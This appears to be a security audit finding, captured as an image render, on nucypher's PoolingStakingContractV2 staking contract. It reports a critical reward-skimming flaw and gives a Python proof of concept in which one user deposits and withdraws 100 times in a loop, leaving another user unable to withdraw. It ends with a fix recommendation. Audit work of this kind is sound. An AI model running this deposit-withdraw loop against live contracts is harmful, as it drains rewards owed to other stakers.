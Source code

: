 
## Report

### CRITICAL
#### 1. Reward sniffing
##### Files
https://github.com/nucypher/nucypher/blob/main/nucypher/blockchain/eth/sol/source/contracts/staking_contracts/PoolingStakingContractV2.sol
##### Description
User can deposit-withdraw tokens several times (at the same transaction), causing reward sniffing.
The emulation of this behavior is presented below:
```python
def main():
    deployer = accounts[0]
    workerOwner = accounts[1]
    
    escrow = deployer.deploy(StakingEscrowMock)
    escrow.setAllTokens(9000)

    token = deployer.deploy(EasyToken, 1000_000)
    stacking = deployer.deploy(PoolingStakingContractV2)
    workerFraction = 1
    stacking.initialize(workerFraction, token, escrow, workerOwner, {'from': deployer})
    stacking.enableDeposit({'from': deployer})

    user1 = accounts[2]
    user2 = accounts[3]
    deployer.transfer(stacking, 6000)
    token.mint(user1, 1000_000)
    token.mint(user2, 1000_000)

    token.approve(stacking, 100_000, {'from': user1})
    stacking.depositTokens(100_000, {'from': user1})
    
    for _ in range(100):
        token.approve(stacking, 100, {'from': user2})
        stacking.depositTokens(100, {'from': user2})
        stacking.withdrawAll({'from': user2})
    
    user1_balance = token.balanceOf(user1)
    user2_balance = token.balanceOf(user2)
    stacking_balance = token.balanceOf(stacking)

    print("user1_balance", user1_balance)
    print("user2_balance", user2_balance)
    print("stacking_balance", stacking_balance)

    stacking.withdrawAll({'from': user1})  # >>>> ERROR HERE <<<<
```
##### Recommendation
May be add a check in withdrawAll function to requre deposit DISABLED?
